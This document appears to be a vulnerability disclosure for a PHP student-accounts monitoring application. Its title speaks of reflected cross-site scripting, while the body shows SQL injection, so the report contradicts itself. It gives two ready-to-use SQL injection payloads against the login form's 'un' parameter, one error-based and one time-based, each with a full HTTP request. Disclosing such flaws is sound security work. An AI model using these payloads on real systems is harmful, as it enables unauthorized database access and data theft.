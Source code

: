 # Monitoring of Students Cyber Accounts System v1.0 has Cross-site scripting (reflected)

BUG_Author: Xue Yue

Website source address:https://www.sourcecodester.com/php/11743/monitoring-students-cyber-accounts.html

Vulnerability url: /MSCAB/login.php

POST parameter 'un' exists SQL injection vulnerability

Payload1:un=a' and (select 6 from(select count(*),concat(0x61626364,(select (elt(66=66,1))),0x71727374,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- a&up=b&log=Login

```
POST /MSCAB/login.php HTTP/1.1
Host: localhost
Content-Length: 177
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/MSCAB/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=4ucuktra2adujlr277p85iuap1
Connection: close

un=a' and (select 6 from(select count(*),concat(0x61626364,(select (elt(66=66,1))),0x71727374,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- a&up=b&log=Login
```

Injection success based on errors

![image](https://github.com/xyaly163/bug_report/blob/main/picture/sql1.png)

Payload2:un=a' and (select 7 from (select(sleep(10)))e)-- n&up=b&log=Login

```
POST /MSCAB/login.php HTTP/1.1
Host: localhost
Content-Length: 65
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/MSCAB/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=4ucuktra2adujlr277p85iuap1
Connection: close

un=a' and (select 7 from (select(sleep(10)))e)-- n&up=b&log=Login
```

Server response time is 10 seconds

![image](https://github.com/xyaly163/bug_report/blob/main/picture/sql2.png)
